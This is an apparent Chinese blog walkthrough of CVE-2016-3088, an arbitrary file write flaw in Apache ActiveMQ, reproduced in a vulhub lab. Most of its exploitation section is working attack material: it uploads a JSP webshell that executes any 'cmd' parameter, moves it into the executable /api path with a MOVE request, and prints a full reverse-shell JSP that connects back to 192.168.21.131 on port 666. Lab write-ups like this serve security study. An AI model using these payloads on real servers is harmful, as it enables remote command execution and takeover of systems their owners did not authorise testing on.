










漏洞详情
Apache ActiveMQ 5.x~5.14.0 版本中存在任意文件写入漏洞。ActiveMQ 中存储文件的 fileserver 接口支持写入文件，但是没有执行权限。可以通过 MOVE 文件至其他可执行目录下，从而实现文件写入并访问。
ActiveMQ 的 web 控制台分三个应用：admin、api 和 fileserver。admin 和 api 需要登录后才能使用，fileserver 无需登录。fileserver 是一个 RESTful API 接口，可以通过 GET、PUT、DELETE 等 HTTP 请求对其中存储的文件进行读写操作。
漏洞搭建
使用 vulhub 搭建漏洞环境，进入 activemq/CVE-2016-3088 目录启动 docker：
docker-compose up -d访问 http://your-ip:8161：


登录还是 admin/admin：

vulhub 搭建方法参考：Vulhub 搭建方法。
漏洞利用
编写 JSP 木马（需要知道文件的绝对路径）：

反弹 shell：

JSP 木马代码：
<%@ page import="java.io.*"%>
<%
out.print("Hello</br>");
String strcmd=request.getParameter("cmd");
String line=null;
Process p=Runtime.getRuntime().exec(strcmd);
BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
while((line=br.readLine())!=null){
out.print(line+"</br>");
}
%>需要登录之后抓包才能上传文件：

发现木马没有被解析，需要将木马文件移动到 api 或者 admin 目录才能解析：

利用 MOVE 指令：
MOVE /fileserver/file.txt /api/shell.jsp使用 webshell 进行连接（蚁剑连接有问题）：

反弹 shell：

反弹 shell JSP 代码（jrshell）：
<%--
/*
* Usage: This is a 2 way shell, one web shell and a reverse shell.
* First, it will try to connect to a listener (attacker machine),
* with the IP and Port specified at the end of the file.
* If it cannot connect, an HTML will prompt and you can input commands
* (sh/cmd) there and it will prompts the output in the HTML.
* Note that this last functionality is slow, so the first one
* (reverse shell) is recommended. Each time the button "send" is
* clicked, it will try to connect to the reverse shell again
* (apart from executing the command specified in the HTML form).
* This is to avoid to keep it simple.
*/
--%>
<%@page import="java.lang.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
<%@page import="java.util.*"%>
<html>
<head>
<title>jrshell</title>
</head>
<body>
<form METHOD="POST" NAME="myform" ACTION="">
<input TYPE="TEXT" NAME="shell">
<input TYPE="submit" VALUE="Send">
</form>
<pre>
<%
// Define the OS
String shellPath = null;
try
{
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
shellPath = new String("/bin/sh");
} else {
shellPath = new String("cmd.exe");
}
} catch( Exception e ){}
// INNER HTML PART
if (request.getParameter("shell") != null) {
out.println("Command: " + request.getParameter("shell") + "\n<BR>");
Process p;
if (shellPath.equals("cmd.exe"))
p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));
else
p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
out.println(disr);
disr = dis.readLine();
}
}
// TCP PORT PART
class StreamConnector extends Thread
{
InputStream wz;
OutputStream yr;
StreamConnector( InputStream wz, OutputStream yr ) {
this.wz = wz;
this.yr = yr;
}
public void run()
{
BufferedReader r = null;
BufferedWriter w = null;
try
{
r = new BufferedReader(new InputStreamReader(wz));
w = new BufferedWriter(new OutputStreamWriter(yr));
char buffer[] = new char[8192];
int length;
while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )
{
w.write( buffer, 0, length );
w.flush();
}
} catch( Exception e ){}
try
{
if( r != null )
r.close();
if( w != null )
w.close();
} catch( Exception e ){}
}
}
try {
Socket socket = new Socket( "192.168.21.131", 666 );
Process process = Runtime.getRuntime().exec( shellPath );
new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
out.println("port opened on " + socket);
} catch( Exception e ) {}
%>
</pre>
</body>
</html>